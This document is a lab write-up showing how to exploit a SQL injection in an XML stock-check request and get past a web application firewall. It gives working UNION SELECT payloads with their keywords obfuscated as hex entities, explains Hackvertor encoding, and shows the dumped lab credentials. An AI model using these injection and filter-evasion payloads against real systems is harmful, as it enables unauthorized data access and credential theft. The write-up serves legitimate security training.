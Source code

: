 # Lab: SQL injection with filter bypass via XML encoding
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Filter bypass via XML encoding
The application has a SQL injection vulnerability via XML. But it also uses a WAF (Web Application Firewall). So the learning goal in this lab is to bypass the filter of the firewall to inject a query via the XML request. One approach is to obfuscate the query.

## Solution
As mentioned before, the application has a stock check feature, which is vulnerable:

![Check stock](../images/sql_injection_with_filter_bypass_via_xml_encoding_0.png)

If we take a look at the HTTP traffic via Burp Proxy, we can see a POST request for resolving the stock check using XML:

![POST Request](../images/sql_injection_with_filter_bypass_via_xml_encoding_1.png)

With a valid request, like shown, the application shows how many units are in stock.

The values `productId` and `storeId` are probably processed in a SQL statement. So we can test if a simple injection will work:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 union select null
        </storeId>
    </stockCheck>
```
As a response we get:
```
"Attack detected"
```

The response took place because of the WAF, which is detecting the SQL keywords and filtering the query out.

To bypass the query we can try to add the hex entities of the characters, so the filter won't detect SQL statements anymore:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect null
        </storeId>
    </stockCheck>
```
```
204 units
null
```

In the result we can see, that the query was executed. The server decodes the hex value of the ASCII character and executes the query afterwards.

From now on it is pretty simple to build a query that uses a UNION attack to get data from the 'users' table. We just have to slightly obfuscate the SQL keywords. For example we can use the following query:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect password &#x66;rom users &#x77;here username=&#x27;administrator&#x27;
        </storeId>
    </stockCheck>
```
Resulting in the following response:
```
204 units
po67rs8f5h6ykdg0br5t
```

We could also use this payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect username || &#x27;..&#x27; || password &#x66;rom users
        </storeId>
    </stockCheck>
```
```
204 units
administrator..po67rs8f5h6ykdg0br5t
carlos..d9rcmrrg0hqyqgan7ltv
wiener..aoftenlenr3jkkoxcaii
```

If we login with the credentials, the lab is solved.

### Hackvertor
Burp Suite has an extension for this use case called 'Hackvertor'. This extension can convert text in place into different encodings.

You can install extensions via the 'BApp Store' under the 'Extensions' tab. If it's installed, you can mark the text that you want to encode, right click it and select 'Extensions' -> 'Hackvertor' -> 'Encode' -> 'hex\_entities':

![Check stock](../images/sql_injection_with_filter_bypass_via_xml_encoding_2.png)

Burp than adds the tag `<@hex_entities>`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 <@hex_entities>union select username || '..' || password from users<@/hex_entities>
        </storeId>
    </stockCheck>
```
And the request results in the same response:
```
204 units
administrator..po67rs8f5h6ykdg0br5t
carlos..d9rcmrrg0hqyqgan7ltv
wiener..aoftenlenr3jkkoxcaii
```

If we take a look at the actual used request, we see the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;&#x6e;&#x69;&#x6f;&#x6e;&#x20;&#x73;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x2e;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x66;&#x72;&#x6f;&#x6d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
        </storeId>
    </stockCheck>
```
This option of Hackvertor converts every character of the query to the hex entity and allows us to bypass the WAF.
